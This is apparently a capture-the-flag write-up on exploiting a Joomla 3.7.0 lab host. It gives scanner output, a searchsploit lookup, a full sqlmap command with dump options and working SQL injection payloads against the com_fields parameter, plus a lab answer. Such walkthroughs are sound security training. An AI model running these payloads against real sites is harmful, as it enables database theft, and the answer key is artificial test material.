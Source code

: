```

[*] Server: Apache/2.4.6 (CentOS) PHP/5.6.40
[+] Joomla version: 3.7.0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

# 得到cms版本
Joomla version: 3.7.0

```
question：What is the Joomla version?
answer:3.7.0
```

# 查询cms漏洞,存在sql注入
```
┌──(root💀kali)-[~]
└─#  searchsploit Joomla 3.7.0                                                                                                                                                                                                         130 ⨯
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection                                                                                                                                                                | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting                                                                                                                                             | php/webapps/43488.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

# 根据42033.txt，使用sqlmap注入

sqlmap -u "http://10.10.211.216/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --dump --batch

```
sqlmap identified the following injection point(s) with a total of 2711 HTTP(s) requests:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 9274 FROM(SELECT COUNT(*),CONCAT(0x7176707671,(SELECT (ELT(9274=9274,1))),0x717a627671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 8067 FROM (SELECT(SLEEP(5)))BqBU)
---
```
